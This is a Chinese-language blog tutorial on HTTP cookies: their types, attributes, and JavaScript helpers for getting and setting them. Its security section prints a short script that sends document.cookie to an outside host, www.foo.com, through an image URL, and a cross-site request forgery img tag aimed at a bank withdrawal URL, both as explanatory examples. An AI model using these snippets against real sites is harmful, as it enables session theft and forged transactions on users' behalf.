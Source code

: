 ```yaml
---
layout: post
title: HTTP cookie
category: 理解计算机
tag: HTTP
---
```



## cookie 的分类

cookie 按照其属性的不同，常见的可以分为以下类别：

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。

### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的组成

cookie 由一下几个部分组成：

+ name
+ value
+ 其他属性
  + max-age
  + path
  + domain
  + secure

**下面详细就以上属性进行说明**

### name 和 value

cookie 中 name 和 value 不能有 `, ; =` 以及空格 ，因为这几个符号是用来分隔 cookie 中的名和值的。如要包含，则要进行字符转译。在 javascript 中可以使用 `encodeURIComponent` 来完成。

对于服务器要设置 cookie 只需要在 HTTP 响应头部中使用 `Set-Cookie: token=324` 这样的方式就可以了。对于浏览器可以使用 `document.cookie="name=xiaowang";domain="example.com"` 就可以了。

### max-age

从设置 cookie 起，该 cookie 存在的秒数，如果设置 `max-age=1000` 那么该 cookie 会在 1000 秒后被删除。在早期可能存在 expires 这个属性，这个属性是设置一个具体的过期时间，在 HTTP 1.1 版本中以及被去掉了，但是浏览器还是会认识它，只是当 max-age 和 expires 同时存在的时候，认识 max-age 的浏览器会忽略 expires。关于这一点详细可以看这篇博客：[HTTP Cookies: What's the difference between Max-age and Expires?](http://mrcoles.com/blog/cookies-max-age-vs-expires/)。

### domain 和 path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 `/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

另外对于 cookie ，不同的端口是否为跨域，这一点标准中尚未说明。经过测试不同端口是可以拿到互相拿到 cookie 的。

### secure

设置了这个属性后，cookie 就成为一个 `Secure cookie` ，只会在加密传输的时候携带该 cookie。

## cookie 的注意事项

### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement('img');
img.src = 'www.foo.com?'+ 'text=' + escape(document.cookie);
```

### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

## 使用 javascript 操作 cookie

### 取得 cookie

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。


```javascript
util.getCookie = function(name) {
    var cookie = document.cookie;
    var list = cookie.split(/;\s/);
    for (var i = 0; i < list.length; i++) {
        var pair = list[i].split('=');
        if (pair[0] == name) {
            return decodeURIComponent(pair[1]);
        }
    }
    return null;
};
```

### 设置 cookie

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。

```javascript
util.setCookie = function(name, value, dayToLive, option) {
    var cookie = name + '=' + encodeURIComponent(value);
    if (typeof dayToLive === 'number') {
        cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
    }
    if (option) {
        for (var key in option) {
            if (key === 'path') {
                cookie += ';path=' + option[key];
            } else if (key === 'domain') {
                cookie += ';domain=' + option[key];
            } else if (key === 'secure') {
                cookie += ';secure';
            }
        }
    }
    document.cookie = cookie;
};
```
